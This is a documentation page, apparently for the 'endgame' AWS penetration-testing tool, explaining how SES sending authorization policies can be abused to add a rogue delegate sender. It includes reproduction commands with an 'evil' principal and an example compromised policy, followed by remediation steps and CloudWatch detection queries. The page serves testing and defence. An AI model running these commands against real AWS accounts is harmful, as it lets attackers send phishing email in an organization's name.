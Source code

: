 # SES Sender Authorization Policies

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

SES Sending Authorization Policies can be used to add a rogue IAM user as a [Delegate sender](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-delegate-sender-tasks.html). This can result in a malicous user sending an email on behalf of your organization, which could lead to phishing attacks against customers or employees, as well as a loss of consumer trust and reputation loss.

### How it works

Sending authorization is based on sending authorization policies. If you want to enable a delegate sender to send on your behalf, you create a sending authorization policy and associate the policy to your identity by using the Amazon SES console or the Amazon SES API.

When Amazon SES receives the request to send the email, it checks your identity's policy (if present) to determine if you have authorized **the delegate sender** to send on the identity's behalf. If the delegate sender is authorized, Amazon SES accepts the email.

This can be abused by adding a rogue user as a [Delegate sender](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-delegate-sender-tasks.html).

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service ses --name test-resource-exposure.com
```

* To verify that the sender authorization policy has been set to allow actions from the rogue user, run the following command from the victim account:

```bash
aws ses list-identity-policies --identity test-resource-exposure.com
```

The command above will return the following:

```bash
{
    "PolicyNames": [
        "Endgame"
    ]
}
```

* Take the response from the command above - `Endgame` - and list the policy name in the command below

```bash
aws ses get-identity-policies --identity test-resource-exposure.com --policy-names "Endgame"
```

* Observe that the contents match the example shown below

## Example

The policy below allows the Evil Principal (`arn:aws:iam::999988887777:user/evil` access to `ses:*` to the victim resource (`arn:aws:ses:us-east-1:111122223333:identity/test-resource-exposure.com`), indicating a successful compromise.

```json
{
    "Policies": {
        "Endgame": "{\"Version\":\"2012-10-17\",\"Statement\":[{\"Sid\":\"AllowCurrentAccount\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::111122223333:root\"},\"Action\":\"ses:*\",\"Resource\":\"arn:aws:ses:us-east-1:111122223333:identity/test-resource-exposure.com\"},{\"Sid\":\"Endgame\",\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::999988887777:user/evil\"},\"Action\":\"ses:*\",\"Resource\":\"arn:aws:ses:us-east-1:111122223333:identity/test-resource-exposure.com\"}]}"
    }
}

```

## Exploitation

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool.

* **Trusted Accounts Only**: Ensure that SES Authorization Policies only authorize specific delegate senders according to your design.
* **Ensure access is necessary**: For any delegate senders that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to manipulation of your SES Sender Authorization Policies**: Tightly control access to the following IAM actions:
      - [ses:PutIdentityPolicy](https://docs.aws.amazon.com/ses/latest/APIReference/API_PutIdentityPolicy.html): _Adds or updates a sending authorization policy for the specified identity (an email address or a domain)_
      - [ses:DeleteIdentityPolicy](https://docs.aws.amazon.com/ses/latest/APIReference/API_DeleteIdentityPolicy.html): _Deletes the policy associated with the identity_
      - [ses:GetIdentityPolicies](https://docs.aws.amazon.com/ses/latest/APIReference/API_GetIdentityPolicies.html): _Returns the requested sending authorization policies for the given identity (an email address or a domain)_
      - [ses:ListIdentities](https://docs.aws.amazon.com/ses/latest/APIReference/API_ListIdentities.html): _Returns a list containing all of the identities (email addresses and domains) for your AWS account, regardless of verification status	_
      - [ses:ListIdentityPolicies](https://docs.aws.amazon.com/ses/latest/APIReference/API_ListIdentityPolicies.html): _Returns a list of sending authorization policies that are attached to the given identity (an email address or a domain)_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='ses.amazonaws.com' AND (eventName='PutIdentityPolicy' or eventName='DeleteIdentityPolicy')
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent 
| filter eventSource='ses.amazonaws.com' AND (eventName='PutIdentityPolicy' and requestParameters.policyName='Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [put-identity-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/ses/put-identity-policy.html)

* [Sending Authorization Overview](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-overview.html)

* [Sending Authorization Policy Examples](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-policy-examples.html)
* [Delegate sender](https://docs.aws.amazon.com/ses/latest/DeveloperGuide/sending-authorization-delegate-sender-tasks.html)
